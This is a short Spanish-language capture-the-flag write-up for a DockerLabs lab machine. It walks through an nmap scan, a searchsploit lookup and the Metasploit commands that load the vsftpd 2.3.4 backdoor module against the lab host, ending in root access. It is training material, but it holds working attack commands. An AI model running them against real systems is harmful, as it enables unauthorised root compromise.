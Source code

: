 # Write-up - Explotación de FTP vsftpd 2.3.4 con Metasploit

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 04/06/2025  
**Aprendizaje:**  
- Refrescar el uso de `searchsploit` para buscar vulnerabilidades.    
- Identificar y explotar una versión vulnerable del servicio FTP `vsftpd 2.3.4`.    
- Uso básico de Metasploit para explotar una vulnerabilidad conocida.  

---

## Enumeración de servicios  

### 1. Escaneo con Nmap  

`sudo nmap -sSV -O 172.17.0.2`  

> Resultado:

`21/tcp` → FTP (`vsftpd 2.3.4`)  
`80/tcp` → HTTP (Apache httpd 2.4.58)  
Sistema Operativo: `Linux`  

## Búsqueda de vulnerabilidades

### 2. Uso de Searchsploit

`searchsploit vsftpd 2.3.4`

Se identifica el siguiente exploit:

`vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) → unix/remote/17491.rb`

## Explotación con Metasploit

### 3. Iniciar consola de Metasploit

`msfconsole`

### 4. Buscar y cargar el módulo

search vsftpd 2.3.4  
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 172.17.0.2  
`run`  

### 5. Verificación de acceso

> whoami = root
